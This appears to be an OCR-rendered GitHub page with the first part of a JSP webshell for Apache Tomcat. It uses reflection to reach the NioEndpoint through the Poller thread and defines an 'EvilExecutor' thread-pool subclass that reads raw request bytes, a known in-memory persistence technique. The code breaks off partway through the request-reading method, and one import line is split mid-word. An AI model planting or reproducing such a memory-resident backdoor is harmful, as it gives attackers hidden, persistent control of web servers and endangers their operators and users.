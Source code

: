 ### JSP

```jsp
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.util.concurrent.TimeUnit" %>
<%@ page import="org.apache.tomcat.util.threads.ThreadPoolExecutor" %>
<%@ page import="java.util.concurrent.BlockingQueue" %>
<%@ page import="java.util.concurrent.Thre
adFactory" %>
<%@ page import="java.nio.ByteBuffer" %>
<%@ page import="java.nio.charset.StandardCharsets" %>
<%@ page import="java.util.ArrayList" %>
<%@ page import="org.apache.coyote.RequestInfo" %>
<%@ page import="org.apache.coyote.Response" %>
<%@ page import="org.apache.tomcat.util.net.NioEndpoint" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%!
    public Object getField(Object obj, String field) {
        Class clazz = obj.getClass();
        while (clazz != Object.class) {
            try {
                Field declaredField = clazz.getDeclaredField(field);
                declaredField.setAccessible(true);
                return declaredField.get(obj);
            } catch (Exception e) {
                clazz = clazz.getSuperclass();
            }
        }
        return null;
    }

    public Object getNioEndpoint() {
    Thread[] threads = (Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads");
    for (Thread thread : threads) {
        try {
            if (thread.getName().contains("Poller")) {
                Object target = getField(thread, "target");
                return getField(target, "this$0");
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
        return new Object();
    }

    class EvilExecutor extends ThreadPoolExecutor {
        public EvilExecutor(int corePoolSize, int maximumPoolSize, long keepAliveTime, TimeUnit unit, BlockingQueue<Runnable> workQueue, ThreadFactory threadFactory) {
            super(corePoolSize, maximumPoolSize, keepAliveTime, unit, workQueue, threadFactory);
        }

        public String getRequest() {
            try {
                Object nioEndpoint = getNioEndpoint();
                    Object[] objects = (Object[]) getField(getField(nioEndpoint, "nioChannels"), "stack");
                    ByteBuffer heapByteBuffer = (ByteBuffer) getField(getField(objects[0], "appReadBufHandler"), "byteBuffer");
                    String req = new String(heapByteBuffer.array(), StandardCharsets.UTF_8);
```
